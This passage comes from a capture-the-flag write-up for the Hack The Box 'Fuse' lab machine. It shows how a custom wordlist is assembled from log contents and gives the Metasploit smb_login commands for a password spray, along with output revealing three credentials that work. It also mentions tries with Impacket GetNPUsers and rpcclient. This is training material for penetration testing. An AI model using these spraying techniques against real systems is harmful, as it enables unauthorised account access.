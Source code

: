     From the logs we find 6 usernames, add them all to a list. From the document name we can guess that bnielson is a new employee.
    With a user-list we are able to look for password hashes with Impacket GetNPUsers, if Preauth is set - however in this case it is not.
    We are able to login with RPCCLIENT as anonymous, however we are unable to extract any information.

    As nothing seems to work, I went to cewl to create a custom word list and spray passwords on the SMB service. This didn't work
    either, but I noticed cewl didn't take any words from the logs. So I created my own wordlist, by hand, and tried spraying again
    - and voila!

    root@nidus:/git/htb/fuse# cat words.txt
      pmerton
      HP-MFT01
      New
      Starter
      bnielson
      Notepad
      JUMP01
      tlavel
      IT
      Budget
      Meeting
      Minutes
      LONWK015
      sthompson
      backup_tapes
      mega_mountain_tape_request
      Fabricorp01
      Word
      offsite_dr_invocation
      printing_issue_test
      invocation
      printing
      issue
      test

      msf5 > use auxiliary/scanner/smb/smb_login
      msf5 auxiliary(scanner/smb/smb_login) > set user_file users.txt
      msf5 auxiliary(scanner/smb/smb_login) > set pass_file words.txt
      msf5 auxiliary(scanner/smb/smb_login) > set smbdomain fabricorp.local
      msf5 auxiliary(scanner/smb/smb_login) > set rhosts 10.10.10.193
      msf5 auxiliary(scanner/smb/smb_login) > run

      [*] 10.10.10.193:445      - 10.10.10.193:445 - Starting SMB login bruteforce
      ..
      [+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'fabricorp.local\bnielson:Fabricorp01'
      [+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'fabricorp.local\tlavel:Fabricorp01'
      [+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'fabricorp.local\bhult:Fabricorp01'


3. This is where things got tricky.. we have 3 sets of creds but I seems we can't use them for anything good.
   So back to enumeration, this time more thorough.
